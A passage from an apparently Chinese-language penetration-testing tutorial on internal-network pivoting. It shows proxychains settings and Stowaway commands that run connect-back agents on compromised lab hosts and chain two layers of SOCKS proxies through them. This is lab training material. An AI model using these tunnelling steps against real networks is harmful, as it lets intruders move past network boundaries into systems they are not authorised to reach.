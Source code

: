 > 这里`[common]`的`server_add`写到`Target1`的内网ip
>
> `[socks5_2]`的`remote_port`写到`Target1`的`[socks5_to_33]`的`local_port`

### 攻击机proxychains

攻击机的`/etc/proxychains4.conf`文件中，改为6002（即`target1`中`[socks5_to_33]`的`remote_port`）

> socks5 127.0.0.1 6002

## Stowaway

### 建立一层socks代理

#### 攻击机上启动admin监听

```bash
./linux_x64_admin -l 9999 -s hack
#-l是端口，-s是密钥
```

#### target1启动agent

```bash
./linux_x64_agent -c 192.168.1.104:9999 -s hack
#-c是admin的IP和端口
```

#### 开启socks代理

进入Target1的node节点，使用socks命令开启socks代理

```bash
use 0
socks 1080
#1080是选择的socks代理端口
```

再用`proxychains`代理就可以了。

### 建立第二层socks代理

#### 1、在node中开启监听

```bash
use 0
listen
1
7070
```

在 Target1 上可以看到 agent 监听了 7070 端口

#### 2、target2连接监听端口

在`Target2`中连接`Target1`监听的`7070`端口

```bash
./linux_x64_agent -c 192.168.22.130:7070 -s hack
#这里是target1的IP和端口
```

#### 3、开启新的socks代理

`admin`接收到新的`node 1`, 进入`node 1`节点开启`socks`代理

```
use 1
socks 1081
```

